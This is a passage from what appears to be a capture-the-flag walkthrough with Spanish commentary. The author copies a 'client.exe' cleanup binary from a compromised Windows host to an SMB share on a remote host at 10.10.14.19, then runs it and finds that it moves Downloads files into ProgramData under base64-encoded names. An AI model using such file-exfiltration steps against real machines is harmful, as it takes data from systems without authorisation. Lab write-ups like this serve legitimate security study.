```powershell
PS C:\Program Files\Cleanup> cp "C:\Program Files\Cleanup\client.exe" \\10.10.14.19\smb\server.exe
PS C:\Program Files\Cleanup> cp "C:\Program Files\Cleanup\client.exe" \\10.10.14.19\smb\README.md
```
```powershell
PS C:\Program Files\Cleanup> .\client.exe
Cleaning C:\Users\web\Downloads
PS C:\Program Files\Cleanup> dir C:\Users\web\Downloads
PS C:\> cd ../../ProgramData
PS C:\ProgramData> dir


    Directory: C:\ProgramData


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----       11/15/2020   4:24 AM                Cleanup                                                               
d---s-       11/14/2020  11:56 AM                Microsoft                                                             
d-----       11/15/2020   3:27 AM                MySQL                                                                 
d-----        1/29/2021  12:41 PM                Package Cache                                                         
d-----         5/1/2023  11:22 AM                regid.1991-06.com.microsoft                                           
d-----        9/15/2018  12:19 AM                SoftwareDistribution                                                  
d-----       11/14/2020   3:25 AM                ssh                                                                   
d-----       11/14/2020   2:58 AM                USOPrivate                                                            
d-----       11/14/2020   2:58 AM                USOShared                                                             
d-----       11/14/2020   3:00 AM                VMware                                                                


PS C:\ProgramData> cd Cleanup
PS C:\ProgramData\Cleanup> dir


    Directory: C:\ProgramData\Cleanup


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----         5/1/2023  11:32 AM           1184 QzpcVXNlcnNcd2ViXERvd25sb2Fkc1xkZXNrdG9wLmluaQ==                      


```
Al ejecutarlo vemos que hacer un tipo de clean al directorio downloads y los manda al directorio de programdata y lo guarda con un nombre en base64 que es la ruta en la que estaba el archivo.
